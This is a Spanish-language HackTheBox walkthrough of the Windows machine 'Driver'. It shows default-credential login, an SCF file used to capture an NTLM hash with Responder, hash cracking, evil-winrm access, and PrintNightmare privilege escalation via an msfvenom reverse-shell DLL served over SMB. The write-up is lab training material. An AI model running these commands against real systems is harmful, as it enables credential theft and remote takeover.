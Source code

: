 ```yaml
---
title: Driver | Windows
published: 2025-03-10
image: "./logo.png"
tags: [Easy, Windows, Password Guessing, SCF Malicious File PrintNightmare, OSCP, eJPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- Password Guessing
- SCF Malicious File
- Print Spooler Local Privilege Escalation (PrintNightmare) [CVE-2021-1675]

### Preparación

- OSCP (Escalada)
- eJPT

***

## Reconocimiento

Para empezar el escaneo, usaremos nmap:

```
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.11.106
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FmrUI4W0trwBRUtc3VI55%2F1.png?alt=media&#x26;token=25a73e3e-2ba1-4734-b3ac-c1d876d3cc23" alt=""><figcaption></figcaption></figure>

Podemos ver el puerto **80**, **135**, **445** y **5985** abiertos, por lo que empezaremos por el servidor web.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F3aUSENOwQaJLAkay17Nd%2F2.png?alt=media&#x26;token=845ff116-84f1-4297-b582-b8cd6941b529" alt=""><figcaption></figcaption></figure>

### Web

De primeras nos pide credenciales pero usando **admin**:**admin** podemos entrar. Vamos a añadir el dominio que aparece al /etc/hosts.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FCDYgHwGzsevgV87JM5Wx%2F3.png?alt=media&#x26;token=321f768f-e27a-482b-8f54-adddb09b096e" alt=""><figcaption></figcaption></figure>

## Explotación

Por lo que podemos ver en este apartado podemos subir un **firmware** para que luego sea analizado por algún tester. Podemos probar a crear un archivo **.scf** (_Shell Command File_) con nuestra IP y nos pondremos a la escucha con el responder:

```sh
[Shell]  
Command=2  
IconFile=\\10.10.14.12\share\testing.ico  
[Taskbar]  
Command=ToggleDesktop
```

```bash
sudo responder -I tun0
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F1bRlqXHXmKGZEKB3P4xC%2F4.png?alt=media&#x26;token=7e897c4c-47ef-426e-a378-ba8d1a6a70c5" alt=""><figcaption></figcaption></figure>

### John The Ripper

Obtenemos el hash de un usuario llamado **tony**, por lo que nos lo guardaremos. También vamos a intentar crackearla con **jhon the ripper**.

```sh
john tony_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FfH15lYMxhWAkLiRRjmto%2F5.png?alt=media&#x26;token=c92f91fb-4e78-482f-b796-8de145408914" alt=""><figcaption></figcaption></figure>

Vemos que la contraseña es **liltony**, vamos a intentar acceder a **WinRM** (puerto 5985) con **Evil-WinRM**.

```sh
evil-winrm -i 10.10.11.106 -u tony -p liltony
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FXVIp8gXHZl8WfyAyh78i%2F6.png?alt=media&#x26;token=818caf67-5f7f-483e-b00f-d1b901f22bba" alt=""><figcaption></figcaption></figure>

Listo, vamos a ver la user flag.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FnqHu51oC5X0kbNni2Lim%2F7.png?alt=media&#x26;token=4b586a04-5ae9-4703-b418-85101b0f5ed7" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Para la escalación podemos usar **WinPEAS**, para poder ver los posibles vectores de escalación.

```powershell
upload /home/zelpro/Tools/winPEASx64.exe
```

```powershell
./winPEASx64.exe
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FlPk7voz8sHrNiawqunqQ%2F8.png?alt=media&#x26;token=1ca56216-0e71-486e-b43f-45e57f085492" alt=""><figcaption></figcaption></figure>

Podemos ver algo interesante, hay bastante información de **Ricoh Printers**. Buscando por exploits, he encontrado un exploit: [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675).

Para comenzar debermos crear una reverse shell con **msfvenom** con extensión **.dll**


```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.34 LPORT=443 -f dll -o shell.dll
```

Ahora con **impacket** compartiremos este archivo con un servidor **smb**.

```sh
impacket-smbserver share .
```

Nos pondremos en escucha a la vez que ejecutamos el exploit.

```
nc -lvnp 443
```

```sh
python printnightmare.py driver/tony:liltony@10.10.11.106 '\\10.10.14.10\share\shell.dll'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FoJ5IR9qqChh7lpFhmH2M%2F9.png?alt=media&#x26;token=0916569f-60d5-4ece-a8df-2c80ee8a9404" alt=""><figcaption></figcaption></figure>

Y ya podríamos obtener la root flag.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FQ1p6iPvv1VFRkYxDykru%2F10.png?alt=media&#x26;token=8a928108-815d-4a6b-bb64-0055d2915104" alt=""><figcaption></figcaption></figure>

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/387)

---